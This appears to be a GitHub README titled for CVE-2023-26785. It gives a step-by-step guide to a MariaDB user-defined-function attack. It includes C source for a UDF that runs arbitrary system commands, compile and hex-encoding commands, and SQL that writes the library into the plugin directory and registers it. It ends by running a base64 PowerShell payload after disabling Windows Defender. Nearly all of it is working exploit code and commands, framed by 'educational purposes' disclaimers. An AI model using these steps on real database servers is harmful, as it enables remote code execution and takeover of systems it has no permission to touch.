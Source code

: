 # CVE-2023-26785


---

# Exploit Reproduction Guide (MariaDB 10.5)

This guide provides step-by-step instructions to reproduce a User-Defined Function (UDF) attack on a database system. Please note that this exploit may work on some systems, but it might not function correctly on 64-bit architectures or certain builds.

> **Warning:** This is for educational purposes only. Unauthorized use of these techniques is illegal and unethical.

## Steps to Reproduce the Attack

### 1. Download and Prepare the UDF Code

First, create a file named `exploit.c` and add the following code:

```c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
    unsigned int        arg_count;   // number of arguments
    enum Item_result    *arg_type;   // pointer to item_result
    char                **args;      // pointer to arguments
    unsigned long       *lengths;    // length of string args
    char                *maybe_null; // 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
    char                maybe_null;  // 1 if func can return NULL
    unsigned int        decimals;    // for real functions
    unsigned long       max_length;  // for string functions
    char                *ptr;        // free ptr for func data
    char                const_item;  // 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
    if (args->arg_count != 1)
        return(0);

    system(args->args[0]);

    return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
    return(0);
}
```

### 2. Compile the UDF Code

Compile the exploit code using the `x86_64-w64-mingw32-gcc` compiler:

```bash
x86_64-w64-mingw32-gcc -g -c exploit.c
```

### 3. Create a Shared Object File

Generate a shared object file (`exploit.so`) from the compiled object file:

```bash
x86_64-w64-mingw32-gcc -g -shared -Wl,-soname,exploit.so -o exploit.so exploit.o
```

### 4. Convert the Shared Object File to Hexadecimal

Use `xxd` to convert the `.so` file to a hexadecimal format:

```bash
xxd -p exploit.so | tr -d '\n' > hex_value.txt
```

### 5. Load the Hexadecimal Value into the Database

Copy the hexadecimal value from `hex_value.txt` and execute the following command in your database:

```sql
DB> set @shell = 0x<hex_value>;
```

### 6. Determine the Plugin Directory and Deploy the Exploit

Find the plugin directory by running:

```sql
DB> select @@plugin_dir;
```

Then, create the exploit shared object in the plugin directory:

```sql
DB> select binary @shell into dumpfile 'C:\\Program Files\\MariaDB 10.4\\lib\\plugin\\exploit.so';
```

> **Note:** Adjust the path according to your system's configuration or the specific plugin directory.

### 7. Create the Malicious Function

Create a new function in the database using the exploit:

```sql
DB> create function do_system returns integer soname 'exploit.so';
```

### 8. Execute the Exploit

Disable any antivirus or Windows Defender that might block the exploit. Then, run a command using the newly created function:

```sql
DB> select do_system('powershell base64 here');
```

Replace `'powershell base64 here'` with the base64 encoded payload of the command you wish to execute.

---

**Disclaimer:** This document is intended for educational purposes and security research only. Misuse of this information can result in criminal charges and severe legal penalties. Always obtain permission from the relevant authorities before testing any vulnerabilities on a network or system.

